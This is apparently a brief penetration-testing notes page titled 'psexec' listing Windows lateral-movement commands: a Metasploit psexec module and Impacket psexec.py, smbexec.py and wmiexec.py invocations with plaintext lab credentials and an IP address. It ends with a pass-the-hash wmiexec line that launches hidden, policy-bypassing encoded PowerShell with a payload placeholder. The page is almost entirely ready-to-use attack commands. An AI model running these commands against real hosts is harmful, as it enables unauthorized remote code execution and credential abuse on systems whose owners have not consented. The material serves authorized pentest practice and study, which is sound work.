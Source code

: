 ```yaml
---
title: "psexec"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## MSFConsole

`exploit/windows/smb/psexec`

## PSExec.py

`psexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

## alternatives

### smbexec

`smbexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

### wmiexec

#### 1

`wmiexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

#### 2

`wmiexec.py lab.justin-p.me/dwalker@10.11.12.101 'powershell -exec bypass -Noninteractive -windowstyle hidden -e 'PAYLOAD' -hashes a:hash`
